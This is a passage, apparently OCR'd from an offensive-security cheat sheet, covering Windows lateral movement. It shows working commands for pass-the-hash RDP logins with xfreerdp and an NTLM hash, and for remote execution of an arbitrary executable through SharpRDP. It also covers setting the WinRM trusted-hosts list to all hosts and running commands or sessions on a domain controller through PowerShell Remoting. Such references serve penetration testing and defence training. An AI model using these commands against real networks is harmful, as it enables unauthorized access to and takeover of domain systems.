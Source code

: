     
    # pass the hash using Restricted Admin, need an admin account not in the "Remote Desktop Users" group.
    # pass the hash works for Server 2012 R2 / Win 8.1+
    # require freerdp2-x11 freerdp2-shadow-x11 packages instead of freerdp-x11
    root@payload$ xfreerdp /v:10.0.0.1 /u:username /d:domain /pth:88a405e17c0aa5debbc9b5679753939d  
    ```
* [SharpRDP](https://github.com/0xthirteen/SharpRDP)
    ```powershell
    PS C:\> SharpRDP.exe computername=target.domain command="C:\Temp\file.exe" username=domain\user password=password
    ```


## Powershell Remoting Protocol

### Powershell Credentials

```ps1
PS> $pass = ConvertTo-SecureString 'supersecurepassword' -AsPlainText -Force
PS> $cred = New-Object System.Management.Automation.PSCredential ('DOMAIN\Username', $pass)
```

### Powershell PSSESSION

* Enable PSRemoting on the host
    ```ps1
    Enable-PSRemoting -Force
    net start winrm  

    # Add the machine to the trusted hosts
    Set-Item wsman:\localhost\client\trustedhosts *
    Set-Item WSMan:\localhost\Client\TrustedHosts -Value "10.10.10.10"
    ```

* Execute a single command
    ```powershell
    PS> Invoke-Command -ComputerName DC -Credential $cred -ScriptBlock { whoami }
    PS> Invoke-Command -computername DC01,CLIENT1 -scriptBlock { Get-Service }
    PS> Invoke-Command -computername DC01,CLIENT1 -filePath c:\Scripts\Task.ps1
    ```

* Interact with a PS Session
    ```powershell
    PS> Enter-PSSession -computerName DC01
    [DC01]: PS>
